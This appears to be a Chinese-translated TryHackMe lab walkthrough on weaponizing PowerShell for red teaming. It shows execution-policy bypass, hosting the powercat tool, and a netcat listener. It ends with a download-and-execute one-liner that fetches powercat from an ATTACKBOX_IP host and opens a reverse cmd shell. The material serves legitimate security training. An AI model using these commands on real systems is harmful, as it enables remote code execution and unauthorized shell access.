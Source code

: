 PowerShell 是一种面向对象的编程语言，从 .NET 中的动态语言运行时 (DLR) 执行，但遗留用途有一些例外。
红队成员依靠 PowerShell 执行各种活动，包括初始访问、系统枚举等。首先，我们创建一个简单的 PowerShell 脚本，用于打印“欢迎来到武器化室！”如下，
```powershell
Write-Output "Welcome to the Weaponization Room!"
```
将文件另存为 thm.ps1。通过写入输出，我们打印消息“欢迎来到武器化室！”到命令提示符。现在让我们运行它并查看结果。
```powershell
C:\Users\thm\Desktop>powershell -File thm.ps1 File C:\Users\thm\Desktop\thm.ps1 cannot be loaded because running scripts is disabled on this system. For more information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170. + CategoryInfo : SecurityError: (:) [], ParentContainsErrorRecordException + FullyQualifiedErrorId : UnauthorizedAccess C:\Users\thm\Desktop>
```

**执行政策**
PowerShell 的执行策略是一个安全选项，用于保护系统免遭恶意脚本的运行。默认情况下，出于安全目的，Microsoft 禁用执行 PowerShell 脚本 .ps1。 PowerShell 执行策略设置为“受限”，这意味着它允许单个命令，但不允许运行任何脚本。
您可以按如下方式确定 Windows 当前的 PowerShell 设置：
```powershell
PS C:\Users\thm> Get-ExecutionPolicy Restricted
```
我们还可以通过运行以下命令轻松更改 PowerShell 执行策略：
```powershell
PS C:\Users\thm\Desktop> Set-ExecutionPolicy -Scope CurrentUser RemoteSigned Execution Policy Change The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose you to the security risks described in the about_Execution_Policies help topic at http://go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy? [Y] Yes [A] Yes to All [N] No [L] No to All [S] Suspend [?] Help (default is "N"): A
```

** 绕过执行策略**
Microsoft 提供了禁用此限制的方法。其中一种方法是为 PowerShell 命令提供参数选项，将其更改为您所需的设置。例如，我们可以将其更改为绕过策略，这意味着没有任何内容被阻止或限制。这很有用，因为它可以让我们运行我们自己的 PowerShell 脚本。
为了确保我们的 PowerShell 文件得到执行，我们需要在参数中提供绕过选项，如下所示：
```powershell
C:\Users\thm\Desktop>powershell -ex bypass -File thm.ps1 Welcome to Weaponization Room!
```
Now, let's try to get a reverse shell using one of the tools written in PowerShell, which is powercat. On your AttackBox, download it from GitHub and run a webserver to deliver the payload.
```powershell
user@machine$ git clone https://github.com/besimorhino/powercat.git Cloning into 'powercat'... remote: Enumerating objects: 239, done. remote: Counting objects: 100% (4/4), done. remote: Compressing objects: 100% (4/4), done. remote: Total 239 (delta 0), reused 2 (delta 0), pack-reused 235 Receiving objects: 100% (239/239), 61.75 KiB | 424.00 KiB/s, done. Resolving deltas: 100% (72/72), done.
```
现在，我们需要在 AttackBox 上设置一个 Web 服务器来为将在目标计算机上下载并执行的 powercat.ps1 提供服务。接下来，将目录更改为 powercat 并开始侦听您选择的端口。在我们的例子中，我们将使用端口 8080.
```
python3 -m http.server 8080
user@machine$ nc -lvp 1337
```

现在，我们从受害者计算机下载有效负载并使用 PowerShell 有效负载执行它，如下所示：
```powershell
C:\Users\thm\Desktop> powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"
```

